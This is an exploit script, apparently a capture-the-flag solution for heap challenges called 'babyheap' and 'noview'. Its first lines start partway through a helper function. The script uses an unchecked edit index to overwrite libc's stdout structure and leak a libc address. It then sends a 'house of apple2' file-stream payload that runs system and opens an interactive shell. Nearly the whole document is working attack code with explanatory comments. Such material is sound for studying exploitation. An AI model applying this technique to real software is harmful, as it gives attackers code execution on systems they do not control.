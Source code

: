 ```
    p.sendlineafter(b"exit",b"1")
    p.sendlineafter(b"index >",str(idx).encode())
    p.sendlineafter(b"size >",str(size).encode())
    
def free(idx):
    p.sendlineafter(b"exit",b"2")
    p.sendlineafter(b"index >",str(idx).encode())

def edit(idx, data): # this func has overflow Lol
    p.sendlineafter(b"exit",b"3")
    p.sendlineafter(b"index >",str(idx).encode())
    # p.sendlineafter(b"size >",b"99999")
    p.sendafter(b"content > ",data)
    
def read(idx):
    p.sendlineafter(b"exit",b"3")
    p.sendlineafter(b"index > ",str(idx).encode())
    leak = p.readuntil(b"1. add note",drop=True)
    return leak


def main():
    global p
    p = conn()
    
    """
    babyheap & noview without doing any heap exploitation :troll:
    
    theory:
    for babyheap AND noview, there is no bounds check on the 'edit' feature
    this means if there are any pointers lying outside of the 'notes' array, we can write to them with the edit feature
    and right behind 'notes' are pointers to libc's stdin/stdout/stderr!
    these are well known to be VERY exploitable, and we can freely edit them. :)
    
    more at https://corgi.rip/posts/leakless_heap_1/, "Step 2: RCE" section
    """
    # context: stdout is at notes[-8]
    
    # step 0: create chunk at notes[24] so that sizes[-8] has valid size
    malloc(28,0x60)
    
    # step 1: hijack stdout to force libc leak
    edit(-8,( 
        p64(0xfbad3887) + # add _IO_IS_APPENDING flag to stdout
        p64(0)*3 + # read_base, end, and ptr. can be anything
        p8(0) # overwrite LSB of write_base
        ))
        
    libc_leak = u64(p.recvn(16)[8:])
    libc.address = libc_leak - libc.sym['_IO_2_1_stdin_']
    info(f"{libc.address:#x}")

    # step 2: fsop to shell
    file = io_file.IO_FILE_plus_struct() 
    payload = file.house_of_apple2_execmd_when_do_IO_operation(
        libc.sym['_IO_2_1_stdout_'],
        libc.sym['_IO_wfile_jumps'],
        libc.sym['system'])
    
    edit(-8,payload)

    p.interactive() # What is a heap exploitations? Someone help
```